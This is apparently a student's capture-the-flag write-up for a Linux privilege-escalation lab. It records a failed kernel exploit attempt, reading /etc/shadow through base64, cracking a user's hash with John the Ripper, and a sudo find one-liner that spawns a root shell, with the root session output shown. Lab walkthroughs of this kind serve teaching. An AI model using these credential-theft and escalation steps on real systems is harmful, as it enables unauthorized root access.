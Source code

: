 # Linux Privilege Escalation Captstone

Start SSH:
User: leonard
Pass: Penny123

Enumerate

/proc/version

gives us Linux Kernel 3.10.0

Exploit CVE 2017-1000253:
    I couldn't get this to work succesfully though I compiled and ran it.
First I started a http.Server on my computer and uploaded the exploit and the rootshell.c file
Then use gcc to compile rootshell.c on the remote system
Then use xxd to make the header rootshell.h
Then compile the exploit
Chmod +x  exploit
and run
No dice: died in main 259.

run linpeas...

base64 vulnerability:
use base64 to read shadow file.
Copy shadow of missy and passwd entry of missy
unshadow on local machine
john the ripper on local machine with rockyou.txt
password is ........
get flag 1

Missy can run /usr/bin/find as sudo with no password (does not work with PATH find )

so from GTFO bin we modify the sudo find command to:

sudo /usr/bin/find . -exec /bin/sh \; -quit 

And voila:

sh-4.2$ sudo /usr/bin/find . -exec /bin/sh \; -quit
sh-4.2# whoami
root
sh-4.2# find / -name flag*.txt 2>/dev/null
/home/missy/Documents/flag1.txt
/home/rootflag/flag2.txt
sh-4.2# cat /home/rootflag/flag2.txt
THM-***************168824782390238***************
